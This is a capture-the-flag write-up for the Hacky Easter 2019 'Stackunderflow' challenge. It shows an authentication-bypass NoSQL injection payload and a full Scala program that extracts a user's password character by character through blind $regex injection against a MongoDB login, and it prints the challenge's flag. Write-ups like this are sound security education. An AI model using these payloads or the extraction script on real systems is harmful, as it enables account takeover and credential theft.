



# 10 - Stackunderflow

Check out this new Q&A site. They must be hiding something but we don't know where to search.

[Stackunderflow](http://whale.hacking-lab.com:3371/)

### Description

The link brought you to a simple web similar to [Stackoverflow](https://stackoverflow.com/) with a simple Q&A section and login form.



### Solution

*"We're currently migrating our database to support humongous amounts of questions."* was clearly a refference to [MongoDB](https://www.mongodb.com/) - its name comes from the word *humongous*. I was pretty sure that this was a NoSQL injection challenge.

I went through the Q&A section and found one particularly interesting question asked by `the_admin`.



It confirmed my guess and revealed the login to attack.

I moved to the login page and tried to perform a NoSQL injection but no matter what input I sent I always got error 500 from the server. So I contacted `0xI`, the author of the challenge, with suspicion that the server was not working correctly. He replied that server expects `application/json` payload instead of `application/x-www-form-urlencoded` sent by the login form itself. It might have occurred to me...

Now I was able to bypass authentication by sending this payload:

```json
{ "username": "the_admin", "password": { "$ne": "" } }
```

When logged as `the_admin` I visited Q&A section again and found a question asked by `null` which was not displayed before.



To steal `null`'s password I had to use blind NoSQLi technique. I wrote a Scala program for this purpose.

I started with a method which tests my assumptions on the password using vulnerability in the login form.

```scala
def test(expr: String): Boolean = {
  val payload = s"""{ "username": "null", "password": $expr }"""

  val request = new HttpPost(s"$host/login")
  request.setEntity(new StringEntity(payload))
  request.setHeader("Content-type", "application/json")

  val response = http.execute(request)
  try {
    response.getStatusLine.getStatusCode != 500
  } finally {
    response.close()
  }
}
``` 
Then I added a recursive method which steals the password character by charecter using `$regex` expression.

```scala
def stealPassword(): String = {
  val alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

  def stealNextChar(prefix: String): Option[Char] =
    alphabet.find(c => test(s"""{ "$$regex": "^$prefix$c" }"""))

  def stealPassword(prefix: String): String = stealNextChar(prefix) match {
    case Some(c) => stealPassword(s"$prefix$c")
    case None => prefix
  }

  stealPassword("")
}
```

Then I put it together and let it do the job.

```scala
val host = "http://whale.hacking-lab.com:3371"

val http = HttpClients.createDefault()
try {
  println(stealPassword())
} finally {
  http.close()
}
```

The complete source code can be found [here](../../src/main/scala/hackyeaster2019/Egg10.scala).

Password: `N0SQL_injections_are_a_thing`

### Egg


